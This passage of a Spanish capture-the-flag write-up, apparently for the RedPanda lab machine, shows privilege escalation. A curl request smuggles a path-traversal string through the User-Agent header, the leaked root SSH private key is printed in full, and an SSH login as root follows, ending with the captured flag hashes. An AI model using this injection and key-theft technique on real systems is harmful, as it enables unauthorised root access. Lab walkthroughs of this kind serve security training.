 Desde nuestra maquina:
```python
curl http://10.10.11.170:8080 -H "User-Agent: ||/../../../../../../../home/woodenk/gato.jpg"
```

Finalmente exportar el xml desde la web de /stats para que tome nuestro archivo

![Desktop View](/assets/img/RedPanda/Pasted image 20221120013044.png){: width="972" height="589" }

Después de unos segundos si revisamos el xml tendra la id_rsa de root

Desde la maquina de la victima hacemos:

```python
cat privesc_creds.xml
```

![Desktop View](/assets/img/RedPanda/Pasted image 20221120013154.png){: width="972" height="589" }

Con esta pequeña id_rsa podemos finalmente conectarnos por ssh y visualizar la flag

Copiamos la id_rsa:
```python
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----
```

La guardamos como id_rsa en nuestro equipo y la cambiamos los permisos:
```python 
sudo chmod 600 id_rsa
```

Seguidamente ejecutamos la [[SSH]]

```python
ssh root@10.129.227.207 -i id_rsa
```

Y ya tenemos acceso al root!


![Desktop View](/assets/img/RedPanda/Pasted image 20221120014132.png){: width="972" height="589" }


---

# Trophy & Loot
user.txt
==23628eba142d94b9c62a9014e283cdfa==
root.txt
==42fb89cc3147f88618f4322ea00abf1f==

